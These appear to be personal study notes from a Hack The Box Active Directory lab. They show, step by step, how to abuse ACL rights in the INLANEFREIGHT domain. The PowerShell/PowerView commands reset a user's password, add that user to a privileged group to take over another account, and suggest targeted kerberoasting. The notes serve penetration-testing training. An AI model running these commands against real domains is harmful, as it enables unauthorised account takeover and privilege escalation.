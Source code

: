 we can get whole attack path from `Transitive Object Control` Section

# **ACL Abuse Tactics**

From previous Section, we will continue to do attack

![Untitled](.gitbook/assets/ACTIVE%20DIRECTORY%20Enum%20&%20Attacks%204af4b148af5740d1a6a92a3c741df505/Untitled%209.png)

- First we will use user `wley` to change password of `damundsen`
- then using `damundsen` we will use `Generic Write` right to add user we control to `Help Desk Level 1` group
- User of `Help Desk Level 1` group is member of `Info Tech` group and member of `Info Tech` group have generic all right over user `adunn`
- Thus we will take control of user `Adunn`

- `PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force` → creating $secpassword variable which stores passoword of wley
- `PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)` → creating $cred variable which stores PSCredential object which contains securely stored user credentials. Because later -Credential parameter expects a PSCredential object not a plain text string.

- `PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` → creating variable to store password for damundsen user

import powerview and then

- `PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` → changing password of user damundsen

- `PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $damundsenPassword)` → creating PSCredential object which contains creds of user damundsen

Before adding user damundsen to `Help Desk Level 1` Group, lets confirm our user is not a member of the target group

- `PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`

Now lets add to `Help Desk Level 1` group

- `PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`
- `PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` → confirming damundsen was added to the group

If for some reason we donot have permission to interrupt the admin account `adunn` 

we can create a fake SPN, then kerberoast to obtain TGS ticket and hopefully crack the hash offline .
